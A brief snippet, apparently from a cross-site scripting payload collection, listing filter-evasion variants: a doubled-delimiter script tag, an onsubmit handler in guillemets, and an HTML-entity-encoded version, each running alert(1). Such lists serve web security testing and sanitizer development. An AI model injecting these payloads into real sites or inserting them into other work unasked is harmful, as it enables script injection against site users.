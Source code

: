 # Delimiters and brackers - 2

Tags: Double use of delimiters
<<script>alert(1)//<</script>
Unknown delimiters
«input onsubmit=alert(1)»
Encoded
&#174input onsubmit=alert(1)&#175